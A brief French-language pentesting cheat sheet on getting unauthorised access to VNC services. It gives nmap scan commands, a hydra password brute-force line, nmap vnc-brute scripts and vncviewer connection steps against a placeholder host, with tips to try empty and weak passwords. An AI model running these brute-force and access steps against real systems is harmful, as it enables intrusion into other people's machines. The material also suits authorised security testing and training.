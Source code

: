 # Exploitation VNC (Virtual Network Computing)

## Objectif
Exploiter des faiblesses de configuration ou des mots de passe faibles pour obtenir un accès VNC non autorisé.

---

## Explications vulgarisées
- VNC permet de prendre le contrôle graphique d'un poste à distance. Il est souvent mal sécurisé (pas de mot de passe, mot de passe faible, pas de chiffrement).

---

## Commandes et étapes essentielles

### 1. Détection de service et version
```bash
nmap -sV -p 5900 target.com
```
- **-sV** : Détecte la version du service.
- **-p 5900** : Scanne le port VNC par défaut.

### 2. Bruteforce de mots de passe
```bash
hydra -P passwords.txt -s 5900 -V target.com vnc
```
- **hydra** : Outil de bruteforce pour tester des mots de passe VNC.

### 3. Connexion avec un client VNC
```bash
vncviewer target.com:5900
```
- **vncviewer** : Client graphique pour se connecter au serveur VNC.
- **Astuce débutant** : Tester sans mot de passe, puis avec des mots de passe faibles ("password", "admin", etc.).

### 4. Enumération automatisée avec Nmap
```bash
nmap --script vnc-info,vnc-title,vnc-brute -p 5900 target.com
```
- **vnc-info** : Récupère des infos sur le serveur VNC (version, sécurité).
- **vnc-title** : Affiche le titre de la fenêtre VNC.
- **vnc-brute** : Teste des mots de passe courants.

---

## Conseils pour débutants
- Toujours commencer par la détection de version et l'automatisation avec Nmap.
- Tester l'accès sans mot de passe, puis avec des mots de passe faibles.
 